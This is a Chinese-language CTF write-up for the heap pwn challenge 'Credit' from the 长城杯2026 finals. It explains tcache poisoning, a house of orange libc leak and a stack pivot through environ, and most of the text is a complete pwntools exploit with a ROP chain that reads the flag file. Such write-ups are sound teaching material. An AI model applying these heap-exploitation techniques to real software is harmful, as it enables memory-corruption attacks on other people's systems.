


# 长城杯2026 决赛 Credit

比赛中途思路卡住了，到第7个小时才出，第8个解出该题

# 分析 + 利用思路

2.43的堆，比较新的东西是：

tcache的管理堆块是在释放出第一个tcache堆块时才会申请出来

非常明显的溢出：



限制条件、难点：

1. 申请8次，编辑（写）8次，free1次，读内容3次
2. 由于free只有一次，所以这次free只能够泄露heap或者libc地址，二者择一
3. 开了沙箱，禁用了execve、execveat，没法getshell，只能orw
4. 经尝试，house of apple这种通过IO_FILE的方法控制执行流是不可行的，在2.43的版本中，exit 和 malloc_assert 均不会触发IO，而main函数也没有return的条件

‍

利用思路：

1. tcache释放后fd为heap地址，通过前一个堆块溢出覆盖后泄露
2. 通过溢出覆盖，覆盖被释放的tcache堆块的fd，控制其使tcache指向伪造的下一个堆块地址；同时覆盖tcache bin位图，通过tcahce poison实现任意地址读写
3. house of orange泄露出unsorted bin的libc地址
4. 通过environ泄露stack地址，将堆开到栈上，通过覆盖返回地址控制执行流

‍

具体细节通过调试可得

# exp

```python
from pwn import *

filename = "shop_patched"
libcname = "./libc.so.6"
host = "10.11.253.8"
port = 21841
context.terminal = ['tmux', 'neww']
context.log_level = 'debug'
elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)
gs = '''
# b *$rebase(0x1356)
# b *$rebase(0x18C7)
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gs)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process(filename)
def p():
    if args.GDB:
        pause()
    else:
        sleep(0.2)
s   = lambda a :                    io.send(a)
sl  = lambda a :                    io.sendline(a)
sa  = lambda a, b:                  io.sendafter(a,b)
sla = lambda a, b:                  io.sendlineafter(a,b)
til = lambda a:                     io.recvuntil(a)
ls  = lambda a, b:                  success("\033[31m" + a + " ----> " + b + "\033[0m")

def add(idx, size):
    sla(b'> ', b'1')
    sla(b'Index: ', str(idx).encode())
    sla(b'Item size: ', str(size).encode())
def edit(idx, content):
    sla(b'> ', b'2')
    sla(b'Index: ', str(idx).encode())
    sa(b'New content: ', content)
def free(idx):
    sla(b'> ', b'4')
    sla(b'Index: ', str(idx).encode())
def show(idx):
    sla(b'> ', b'3')
    sla(b'Index: ', str(idx).encode())
    til(b'Content: ')
def protect_ptr(addr, next):        # tcache protect
    return (addr >> 12) ^ next

io = start()

add(0, 0x20)
add(1, 0x18)
free(1)
edit(0, b'a'*0x30)
show(0)
til(b'a'*0x30)
heap = u64(io.recv(5).ljust(8, b'\x00')) << 12
ls("heap", hex(heap))

edit(0, b'a'*0x20 + p64(0x30) + p64(0x21) + p64(protect_ptr(heap + 0x40, heap + 0x100)) + b'a'*0x10 + p64(0x301) + p64(0)) 
# p()
add(1, 0x18)

add(5, 0x100)
edit(5, b'a'*0x100 + p64(0) + p64(0xba1))

add(6, 0xd00)
edit(5, b'a'*0x110)
show(5)

til(b'a'*0x110)
libc.address = u64(io.recv(6).ljust(8, b'\x00')) - 0x212ac8
ls("libc", hex(libc.address))

rdi = libc.address + 0x000000000011bcfa
rsi = libc.address + 0x000000000005c2e7
rax = libc.address + 0x00000000000e5e47
syscall = libc.address + 0x00000000000a0c46
# 0x00000000001462d7: mov rdx, rax; ret;
# 0x0000000000029bb0: leave; ret; 
mov_rdx_rax = libc.address + 0x00000000001462d7
leave_ret = libc.address + 0x0000000000029bb0

environ = libc.sym.environ
ls("environ", hex(environ))
add(3, 0x18)
edit(3, p64(0) + p64(environ-0x48))

add(4, 0x38)
edit(4, b'a'*0x48)
show(4)
til(b'a'*0x48)
stack = u64(io.recv(6).ljust(8,b'\x00')) - 0x1e0
ls("stack", hex(stack))
# b *$rebase(0x1362)
edit(3, p64(0) * 2 + p64(stack - 0x88))
add(2, 0x48)
# p()
payload = p64(0)*4 + p64(heap + 0x30) + p64(rax) + p64(0x1000) + p64(mov_rdx_rax) + p64(rax) + p64(0) + p64(syscall)
p()
# b *$rebase(0x19F1)
edit(2, payload)
p()

flag = stack - 0x88
pl = flat(rdi, flag, rsi, 0, rax, 2, syscall,
            rdi, 3, rsi, heap, rax, 0x30, mov_rdx_rax, rax, 0, syscall,
            rdi, 1, rsi, heap, rax, 0x60, mov_rdx_rax, rax, 1, syscall
            )
payload = flat({
    0:      b'flag.txt\0',
    0x58:   pl
}, filler=b'\0')

s(payload)

io.interactive()
```

flag：



‍
